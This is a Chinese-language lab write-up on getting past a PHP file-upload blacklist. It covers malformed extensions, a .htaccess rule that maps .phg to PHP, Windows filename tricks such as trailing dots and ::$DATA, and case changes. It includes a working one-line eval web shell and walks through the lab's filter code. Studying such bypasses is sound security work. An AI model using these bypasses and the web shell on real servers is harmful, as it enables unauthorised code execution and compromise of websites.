 
上传php文件，出现，`提示：此文件不允许上传! `.

![UAGLBF.png](https://s1.ax1x.com/2020/07/07/UAGLBF.png)

抓包，修改文件后缀，乱修改一通。发现可以上传并且没有改名字，判定为黑名单过滤。

![UAJzVg.png](https://s1.ax1x.com/2020/07/07/UAJzVg.png)

那么，文件后缀修改为畸形后缀名(php1、php2、php3等)。当然他这里也过滤了一些畸形后缀名。

加入我是管理员，我配置不当导致php1可以以php形式执行。

一般不知道啥文件，可以多尝试上传几次畸形后缀名文件，然后尝试。

我这里上传php1成功。

![UAY8sK.png](https://s1.ax1x.com/2020/07/07/UAY8sK.png)

因为这里并没有改名字，而且并没有过滤`.htaccess`后缀，所以我们进行**.htaccess绕过**

先上传一个`.htaccess`文件，内容为:

	AddType application/x-httpd-php .phg

在上传一个`.phg`文件，内容为：	`<?php @eval($_POST[a]); ?>`成功上传并且可以以php执行。

**还可以根据：**

**配合操作系统文件命令规则**

（1）上传不符合windows文件命名规则的文件名

　　test.asp.

　　test.asp(空格)

　　test.php:1.jpg

　　test.php::$DATA

　　shell.php::$DATA…….

会被windows系统自动去掉不符合规则符号后面的内容。

（2）linux下后缀名大小写

在linux下，如果上传php不被解析，可以试试上传pHp后缀的文件名。

那么在windows环境中我们此处构造`ma4.php. .`,即可成功绕过检测，访问`ma4.php`就为木马位置。

我么此处来按照源代码解释一下为什么`ma4.php. .`可以绕过，

首先使用`trim`函数去掉去除首尾空白字符，还有其他特殊字符。

然后用`deldot()` ,删除文件名末尾的点,此时`$file_name=ma4.php. `,

	strrchr() 函数（在php中）查找字符在指定字符串中从右面开始的

	第一次出现的位置，如果成功，返回该字符以及其后面的字符，如果

	失败，则返回 NULL。与之相对应的是strchr()函数，它查找字符

	串中首次出现指定字符以及其后面的字符。
